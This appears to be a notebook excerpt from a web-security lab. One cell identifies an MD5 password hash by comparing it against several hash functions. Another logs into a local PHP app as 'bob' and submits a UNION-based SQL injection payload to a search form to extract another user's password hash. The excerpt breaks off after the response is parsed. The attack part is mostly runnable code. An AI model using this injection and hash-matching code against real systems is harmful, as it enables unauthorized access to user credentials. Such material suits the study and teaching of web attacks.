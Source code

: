 ```python
def check_hash(name, func, string, target):
    hashed_value = func(string.encode()).hexdigest()
    print(f"Hash Function: {name}, Hash Value: {hashed_value}")
    if hashed_value == target:
        return name, hashed_value
    return None

# Check each hash function
for name, func in hash_functions:
    result = check_hash(name, func, input_string, target_hash)
    if result:
        print(f"Match found: Hash Function: {result[0]}, Hash Value: {result[1]}")
        break
else:
    print("No match found for the target hash with the provided hash functions.")

```

    Hash Function: MD5, Hash Value: 5f4dcc3b5aa765d61d8327deb882cf99
    Match found: Hash Function: MD5, Hash Value: 5f4dcc3b5aa765d61d8327deb882cf99



```python
import requests
from bs4 import BeautifulSoup
from IPython.core.display import display, HTML

# URL of the login and search pages
login_url = 'http://localhost:8000/login.php'
search_url = 'http://localhost:8000/searchproducts.php'

# Credentials for login
username = 'bob'
password = 'password'  # Assuming the password for bob is 'password'

# Corrected payload to retrieve Alice's password hash
payload = "1' UNION SELECT 1, 2, username, password, 5 FROM users WHERE username='alice' -- "

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request for login
login_data = {
    'uid': username,
    'password': password
}

# Send the POST request to login
login_response = session.post(login_url, data=login_data)

# Check if login was successful by looking for a specific element or text in the login_response
if 'Welcome bob' in login_response.text:
    print("Successfully logged in as bob")

    # Data to be sent in the POST request for search
    search_data = {
        'searchitem': payload
    }

    # Send the POST request to search
    response = session.post(search_url, data=search_data)

    # Parse the HTML response
    soup = BeautifulSoup(response.text, 'html.parser')
```